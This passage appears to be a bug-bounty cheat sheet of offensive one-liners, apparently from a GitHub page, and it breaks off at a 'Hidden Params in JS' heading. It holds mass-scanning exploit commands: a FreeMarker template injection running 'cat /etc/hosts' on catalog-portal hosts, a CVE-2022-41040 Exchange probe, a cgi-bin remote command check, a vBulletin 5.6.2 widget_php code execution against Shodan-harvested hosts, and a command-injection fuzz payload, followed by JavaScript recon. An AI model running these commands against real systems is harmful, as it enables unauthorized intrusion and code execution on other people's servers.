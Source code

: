 `cat urls.txt | while read h do ; do curl -sk --path-as-is “$h/catalog-portal/ui/oauth/verify?error=&deviceUdid=${"freemarker.template.utility.Execute"?new()("cat /etc/hosts")}”| grep "context" && echo "$h\033[0;31mV\n"|| echo "$h \033[0;32mN\n";done`

### 
<br/><br/>
### CVE-2022-41040:

`ffuf -w "urls.txt:URL" -u "https://URL/autodiscover/autodiscover.json?@URL/&Email=autodiscover/autodiscover.json%3f@URL" -mr "IIS Web Core" -r`

---

## 
<br/><br/>
## RCE:

`cat targets.txt | httpx -path "/cgi-bin/admin.cgi?Command=sysCommand&Cmd=id" -nc -ports 80,443,8080,8443 -mr "uid=" -silent`

### 
<br/><br/>
### vBulletin 5.6.2

`shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;`

`subfinder -d target.com | httpx | gau | qsreplace “aaa%20%7C%7C%20id%3B%20x” > fuzzing.txt; ffuf -ac -u FUZZ -w fuzzing.txt -replay-proxy 127.0.0.1:8080`

---

## 
<br/><br/>
## JS Files:

### 
<br/><br/>
### Find JS Files:

`gau -subs target.com |grep -iE '\.js'|grep -iEv '(\.jsp|\.json)' >> js.txt`

`assetfinder target.com | waybackurls | egrep -v '(.css|.svg)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"`

### 
<br/><br/>
### Hidden Params in JS:
